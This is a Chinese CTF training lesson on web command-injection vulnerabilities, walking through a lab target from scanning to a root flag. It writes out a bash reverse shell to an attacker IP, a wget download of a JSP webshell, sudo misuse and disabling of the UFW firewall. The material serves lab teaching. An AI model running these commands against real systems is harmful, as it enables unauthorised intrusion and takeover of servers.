










# CTF最强战队蓝莲花内部培训教程：P20：21.web安全命令执行 🚀

## 概述
在本节课中，我们将学习Web安全中的命令执行漏洞。我们将通过在一个Web应用程序中执行系统命令，最终获得服务器的root权限，并取得目标flag值。

## 命令执行漏洞简介
上一节我们概述了课程目标，本节中我们来看看命令执行漏洞的基本概念。

当应用程序需要调用外部程序来处理内容时，会使用一些执行系统命令的函数，例如PHP中的`system()`、`exec()`、`shell_exec()`函数。

当用户可以控制这些命令执行函数中的参数时，就能够将恶意系统命令注入到正常命令中，从而造成命令执行攻击。

在调用这些函数执行系统命令时，如果将用户的输入作为系统命令的参数拼接到命令行中，并且对用户的输入没有进行充分过滤，就会产生命令执行漏洞。

## 实验环境搭建
了解了漏洞原理后，我们需要搭建实验环境进行实践。

攻击机使用Kali Linux，其IP地址为`192.168.1.105`。
靶机使用Linux系统，其IP地址为`192.168.1.103`。

在CTF比赛中，我们的明确目标是获取靶机上的flag值以取得分数。

## 第一步：信息探测
环境准备就绪后，我们首先需要对目标进行信息探测，收集主机服务及版本信息。

我们使用Nmap工具进行扫描。以下是探测主机服务信息的命令：
```bash
nmap -sV 192.168.1.103
```

执行该命令后，Nmap会向靶机发送数据包以获取信息。

除了扫描服务版本，我们还可以使用以下命令快速扫描主机的全部信息：
```bash
nmap -A -v -T4 192.168.1.103
```
其中，`-T4`参数代表以较快的速度进行扫描。

除了Nmap，我们也可以使用Nikto来探测靶机的HTTP服务信息。以下是相关命令：
```bash
nikto -host http://192.168.1.103:8080
```
**注意**：必须指定HTTP服务的端口号8080。

扫描结果显示，HTTP服务允许PUT和DELETE方法，这通常是危险的。同时，发现了一个名为`test.jsp`的文件，这可能存在利用点。

## 第二步：漏洞发现与初步利用
根据扫描结果，我们需要深入挖掘可利用的信息。我们将在浏览器中访问扫描到的页面。

在浏览器中访问`http://192.168.1.103:8080`，可以看到Tomcat的默认页面及其文件系统目录，这是网站的根目录信息。

接着访问`test.jsp`页面（`http://192.168.1.103:8080/test.jsp`）。页面提示这是一个调试页面，用于检测`/tmp`目录。它举例说明输入`ls -l /tmp`可以查看目录信息。

这让我们联想到命令执行漏洞：通过Web应用输入参数或命令，在服务器端执行。我们可以尝试利用这一点。

我们首先尝试页面提示的命令：
```
ls -l /tmp
```
成功返回了目录列表，证实了命令执行漏洞的存在。

为了获取更详细的信息，我们使用以下命令：
```
ls -alh /tmp
```
参数说明：`-a`显示所有文件，`-l`长格式显示，`-h`人类可读格式。



接下来，我们关心服务器上的用户信息。Linux系统中，每个用户在`/home`目录下都有独立的目录。我们使用以下命令查看：
```
ls -alh /home
```
发现存在`bill`用户目录，表明系统中有`bill`这个用户。



为了挖掘更深层信息，我们查看该用户目录下的内容：
```
ls -alh /home/bill
```
发现存在`.ssh`目录，说明`bill`用户可以通过SSH远程登录。同时提示信息表明`bill`用户可能可以通过`sudo`命令以管理员权限执行命令，这为权限提升提供了可能。

此外，我们可以查看系统详细信息：
```
uname -a
```
结果显示系统为Ubuntu，这提醒我们系统可能默认开启了UFW防火墙。

## 第三步：权限利用与提升
我们已经探测到`bill`用户存在，并且可能拥有`sudo`权限。现在我们来利用这一点。

首先，介绍一个技巧：通过SSH本地免密登录来执行命令。命令格式为：
```bash
ssh username@localhost [command]
```



我们利用这个方式来查看`bill`用户的`sudo`权限：
```
ssh bill@localhost sudo -l
```
命令执行成功，返回了权限信息，确认`bill`可以执行某些root命令。

由于系统是Ubuntu，存在UFW防火墙，我们接下来使用`bill`的权限关闭防火墙，避免后续操作受阻：
```
ssh bill@localhost sudo ufw disable
```
命令执行成功，防火墙已被关闭。





## 第四步：获取Shell（方法一：NC反弹）
关闭防火墙后，我们需要提升权限以完全控制服务器。常见方法是反弹一个Shell。



第一种方法是使用Netcat（NC）进行反弹。
1.  在攻击机（Kali）上监听一个端口：
    ```bash
    nc -lvp 4444
    ```
2.  在靶机的命令执行处，通过SSH调用`sudo`权限，将Bash Shell反弹到攻击机。命令结构如下：
    ```bash
    sudo bash -i >& /dev/tcp/192.168.1.105/4444 0>&1
    ```
    其中`192.168.1.105`应替换为攻击机的IP地址。

执行后，在攻击机的NC监听终端成功获得了返回的Shell，并且是root权限。输入`id`命令可以确认。

## 第五步：获取Shell（方法二：上传WebShell）
在渗透测试中，另一种常见方法是上传WebShell木马。



首先，需要在攻击机上启动一个简易的HTTP服务器，用于让靶机下载木马文件。可以使用Python实现：
```bash
python -m SimpleHTTPServer
```
**注意**：需要将木马文件（例如`shell.jsp`）放在启动HTTP服务器的目录下（如桌面）。



然后，在靶机的命令执行处，使用`wget`命令下载木马：
```
sudo wget http://192.168.1.105:8000/shell.jsp -O /path/to/webroot/shell.jsp
```
其中IP和端口需对应攻击机的HTTP服务器，路径需对应Web根目录（之前探测到的`webapps/ROOT`）。

最后，通过浏览器访问上传的`shell.jsp`文件，即可获得一个WebShell。

## 第六步：获取Flag并总结
我们已经通过NC反弹获得了root权限的Shell。在CTF比赛中，最终目标是获取flag。



Flag通常存放在只有root用户才能访问的`/root`目录下。我们执行以下操作：
```bash
cd /root
ls
cat flag
```
成功获取到flag值，标志着CTF挑战完成。最后，需要撰写测试报告（Write-up）来总结整个利用过程。

## 命令执行漏洞总结与技巧
本节课中我们一起学习了命令执行漏洞的利用。在实际CTF比赛中，命令执行漏洞往往存在多种过滤机制，不像本实验这样简单。

对于开放了SSH服务的靶机，可以采用本节课的方法进行测试。如果未开放SSH服务，则需要利用各种绕过过滤的技巧来达到命令执行的效果。

命令执行漏洞的产生，根本原因在于应用在调用如`system()`、`exec()`等函数执行系统命令时，未对用户输入进行严格过滤，导致用户输入被拼接到命令行中执行。

---



**本节课总结**：我们学习了命令执行漏洞的原理、信息收集方法、漏洞发现与利用过程，以及通过两种方式（NC反弹、上传WebShell）获取Shell并最终取得root权限和flag值的完整流程。